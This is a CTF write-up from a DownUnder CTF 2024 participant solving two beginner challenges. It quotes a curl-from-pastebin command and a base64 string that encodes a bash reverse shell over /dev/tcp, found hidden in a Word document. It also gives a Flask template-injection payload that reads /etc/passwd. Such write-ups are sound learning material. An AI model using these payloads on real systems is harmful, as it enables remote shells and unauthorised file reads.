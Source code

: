 # DownUnder CTF 2024

i was part of the team "0xB8000" in this competition.

official github containing the source code of the challenges and the official writeups:

https://github.com/DownUnderCTF/Challenges_2024_Public

## tldr please summarise

category: beginner, misc

"I thought I was being 1337 by asking AI to help me solve challenges, now I have to reinstall Windows again. Can you help me out by find the flag in this document?"

there was a word document attached. since i remembered a word document can be unzipped, i did just that with

```bash
unzip "EmuWar.docx"
```

to see all the file contents of the unzipped archive i executed

```bash
find . -type f -exec cat {} \;
```

in `word/document.xml` i found the following curl command:

```bash
curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d
```

which revealed the flag.

the pastebin's content was the base64 encoded string `YmFzaCAtaSA+JiAvZGV2L3RjcC8yNjEuMjYzLjI2My4yNjcvRFVDVEZ7Y2hhdGdwdF9JX24zM2RfMl8zc2NhcDN9IDA+JjE=`

## parrot the emu

category: beginner, web

"It is so nice to hear Parrot the Emu talk back"

a short look into the given source code revealed this is a web app powered by flask.

the `index.html` screamed template injection right away, since the message you put into the form is displayed unsanitized.

a quick google search for "flask template injection" found me this helpful link:

https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/

then i created a test payload with

`{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}` 
